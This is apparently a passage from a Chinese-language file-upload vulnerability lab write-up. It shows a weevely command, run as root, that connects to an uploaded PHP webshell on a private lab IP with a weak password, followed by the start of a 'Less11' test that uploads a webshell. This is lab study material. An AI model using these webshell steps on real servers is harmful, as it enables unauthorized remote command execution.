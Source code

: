 ```
root@Shackle:~# weevely http://192.168.2.128/upload/farmsec.php 123456 dir
```

![4c6a6ab31db48f6031e0e13a34e27576.png](../../images/9fc4c9bbb19d47429a56fdf4be56ef19.png)

## 1.2.6 Less11测试：

1.上传webshell得到如下提示
![dbdf81d35e5c72f586b3aa9de23a3e50.png](../../images/b7bcdb609be6487ab0c0ab338a3ef2fb.png)
2.尝试上传正常图片

